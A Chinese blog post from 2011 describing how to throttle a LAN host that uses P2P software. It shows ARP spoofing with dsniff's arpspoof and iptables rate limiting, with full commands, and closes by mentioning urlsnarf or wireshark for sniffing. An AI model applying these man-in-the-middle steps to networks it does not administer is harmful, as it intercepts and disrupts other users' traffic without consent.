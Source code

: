 ```yaml
---
    author: admin
    comments: true
    date: 2011-11-07 19:16:51
    layout: post
    slug: linux-limit-p2p-ing-host
    title: linux下限制局域网内部使用p2p软件的主机
    wordpress_id: 1865
    categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.

作用：

arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)

注意：kernel的ip转发必须要提前打开

使用：

arpspoof [-i interface] [-t target] host

-i 用来指示要使用的网卡接口，一般是eth0,

-t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机

host 你要截取数据包的主机，通常是网关

具体使用：

环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1

1 安装

    sudo pacman -S dsniff

2 开启内核转发和欺骗

    #echo 1 > /proc/sys/net/ipv4/ip_forward

    #欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。

    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1

    #欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)

    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29

    _192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_

3 利用iptables开始限速

    #192.168.0.29被限制每秒只能传输3个数据包了

    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   

4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩

参考资料：

[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)

[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
